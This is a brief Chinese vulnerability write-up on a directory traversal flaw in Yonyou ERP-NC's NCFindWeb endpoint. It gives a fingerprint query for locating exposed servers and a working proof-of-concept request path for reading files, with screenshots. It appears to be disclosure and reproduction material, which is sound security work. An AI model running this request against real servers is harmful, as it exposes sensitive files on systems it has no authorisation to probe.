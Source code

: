 # 用友 ERP-NC NCFindWeb 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

<a-checkbox checked>用友ERP-NC</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="用友-UFIDA-NC"</a-checkbox></br>

## 漏洞复现

POC为

```plain
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![img](/assets/PeiQi-Wiki/img/yongyou-8.png)



查看 ncwslogin.jsp 文件



![img](/assets/PeiQi-Wiki/img/yongyou-9.png)